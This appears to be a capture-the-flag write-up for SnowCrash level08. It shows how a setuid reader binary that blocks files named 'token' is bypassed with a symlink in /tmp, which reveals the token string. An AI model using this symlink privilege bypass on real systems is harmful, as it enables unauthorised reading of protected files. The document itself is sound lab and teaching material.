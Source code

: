 In our home directory, we notice an executable with extended permissions and a token file that we do not have access to:

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

When we test the executable with a file we own, it displays the file's content:

```
level08@SnowCrash:~$ echo '42' > /tmp/test
level08@SnowCrash:~$./level08 /tmp/test
42
```

But that doesn't work with the token file:

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Since we don't receive a Linux permission error, it's possible that the level08 executable restricts access based on the file name. To bypass this, we can try using a symlink:

```
level08@SnowCrash:~$ ln -s ~/token /tmp/tset
level08@SnowCrash:~$ ./level08 /tmp/tset
25749xKZ8L7DkSCwJkT9dyv6f
```
